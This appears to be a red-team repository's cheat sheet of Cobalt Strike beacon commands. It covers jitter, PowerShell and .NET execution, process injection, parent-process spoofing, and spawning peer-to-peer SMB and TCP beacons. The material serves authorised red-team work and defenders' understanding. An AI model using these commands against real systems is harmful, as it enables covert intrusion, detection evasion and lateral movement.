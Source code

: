 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```
sleep 60 50                                 ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```
run [command]
```
##### powershell.exe
```
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
